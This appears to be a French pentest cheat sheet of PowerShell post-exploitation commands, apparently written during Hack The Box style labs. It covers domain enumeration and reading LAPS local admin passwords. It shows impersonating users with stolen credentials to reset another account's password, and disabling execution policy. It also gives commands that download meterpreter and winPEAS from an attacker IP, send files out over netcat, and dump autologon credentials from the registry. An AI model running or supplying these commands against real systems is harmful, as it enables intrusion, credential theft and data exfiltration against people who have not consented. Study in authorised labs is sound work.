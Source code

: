 # Powershell

> Tips et commandes lorsque l'on a une invite de commande powershell.



### 1. Enumération

- Lister les fichiers cachés :

  ```powershell
  ls -Fo
  ```

- Lister ses privilèges / groupes / utilisateur :

  ```powershell
  whoami /all
  ```

- Liste des administrateurs locaux :

  ```powershell
  net localgroup administrators
  ```

- Liste des sessions powershell actives et disponibles :

  ```powershell
  get-pssession -computername <NOM_PC>
  ```

- Lister les utilisateurs du domaine / savoir si la machine est reliée à un AD :

  ```powershell
  net user /domain
  ```

- Equivalent de GREP et FIND :

  ```powershell
  # Trouver tous les fichiers JSON sur une machine
  Get-ChildItem -Path "C:\Windows\*.json" -Recure
  
  # Faire des greps sur les fichiers txt d'une machine
  Get-ChildItem -Path "D:\Script\*.txt" -Recurse | Select-String -Pattern 'PATTERN'
  
  # Avec exclusion des fichiers de merde
  Get-Childitem –Path 'C:\program files'  -Exclude *.JPG,*.MP3,*.TMP, *.DLL -File -Recurse -ErrorAction SilentlyContinue

- Regarder si le service de spool est activé pour l'attaque `Print-nightmare` :

  ```powershell
  Get-Service -Name Spooler
  ```

- Récupérer les informations réseaux (IP, passerelle, ...) :

  ```powershell
  ipconfig
  ```

- Connaitre l'architecture de la machine :

  ```powershell
  powershell.exe -c "[Environment]::Is64BitProcess"
  # True ou False
  ```

- Savoir si LAPS est installé :

  ```powershell
  Get-ChildItem 'C:\Program Files\LAPS\CSE\Admpwd.dll'
  # Si oui : -a----         5/5/2021   7:04 AM         184232 Admpwd.dll
  ```

- Lister les OU d'un domaine :

  ```powershell
  Get-ADOrganizationalUnit -Filter 'Name -like "*"' | Format-Table Name, DistinguishedName -A
  ```

- Lister les groupes ayant des permissions sur une OU spécifique :

  ```powershell
  dsacls.exe "OU=Domain Controllers,DC=timelapse,DC=htb"
  ```

- Lire le mot de passe LAPS `ms-Mcs-AdmPwd` (le mot de passe de l'admin local donc) :

  ```powershell
  Get-ADComputer -Filter * -Properties MS-Mcs-AdmPwd | Where-Object MS-Mcs-AdmPwd -ne $null | FT Name, MS-Mcs-AdmPwd
  ```

  

### 2. Exécution de commandes

> Exécuter des commandes avec les droits d'un autre utilisateur que soi
>
> Objectifs : multiples, changer le mot de passe d'un autre utilisateur par exemple
>
> https://blog.atwork.at/post/Run-PowerShell-script-as-different-user
>
> https://www.thehacker.recipes/ad/movement/credentials/impersonation

- Première partie, setup les identifiants dans des variables :

  ```powershell
  # Première méthode
  # Récupération d'un mot de passe "secure" ($mp)
  $username = '<USER>'
  # Création d'un objet contenant les identifiants de l'utilisateur qu'on cherche à se faire passer pour
  $cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username, $mp.SecureCurrentPassword
  
  # Deuxième méthode, sous condition d'avoir un prompt powershell
  # https://cheats.philkeeble.com/active-directory/lateral-movement#psremoting
  $cred = Get-Credential Domain\Username
  
  # 3ème méthode, en ayant le mot de passe en clair
  $passwd=ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -Force
  $cred=New-Object System.Management.Automation.PSCredential("acute\imonks", $passwd)
  ```

- Deuxième partie, exécuter des commandes locales, avec les identifiants créés :

  ```powershell
  # Exemple : Changement du mot de passe d'un autre utilisateur en utilisant les droits de l'utilisateur "volé"
  # -ComputerName : le PC sur lequel on veut exécuter une commande
  # -ConfigurationName : les restrictions associées à la session si 
  Invoke-Command -ComputerName localhost -Credential $credential -ScriptBlock {net user <DOMAIN_USER> <NEW_PASSWORD>} -ConfigurationName dc_manage
  
  # Pas obligé d'avoir setup les credentials, un prompt les demandes
  Invoke-command -Credential $cred -computername x -scriptblock {whoami}
  ```



### 3. Politique d'exécution .ps1

> Consulter et modifier la politique d'exécution pour autoriser l'exécution d'un ps1 non signé par Microsoft

```cmd
Get-ExecutionPolicy
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```



### 4. Utilitaires

- Upload un fichier sur la machine cible :

  ```powershell
  # Certutil
  certutil.exe -urlcache -f "http://10.10.16.6:8000/winPEASx86.exe" winPEASx86.exe
  
  # Webclient
  $WebClient = New-Object System.Net.WebClient
  $WebClient.DownloadFile("http://<IP_HOTE>:5655/meterpreter.exe","C:\windows\temp\meterpreter.exe")
  ```

- Télécharger un fichier présent sur la cible Windows vers son hôte Linux :

  ```powershell
  # Uploader auparavant un binaire nc64.exe (ou 32 selon l'architecture)
  cat .\res.txt | .\nc64.exe <IP_HOTE> 5655
  ```

- Remplacer du contenu d'un fichier par un autre :

  ```powershell
  (Get-Content -Path C:\Users\<FICHIER>) -replace '<CHAINE_A_REMPLACER>','NOUVELLE_CHAINE' | Set-Content -Path C:\Users\<FICHIER>)
  ```

- Lire une clé de registre : 

  ```powershell
  # Changer la clé de registre bien entendu
  reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
  
  # Autre manière, ici de dump les identifiants pouvant être présents via autologon
  Get-ItemProperty -path 'HKLM:\software\microsoft\windows nt\currentversion\winlogon'
  ```
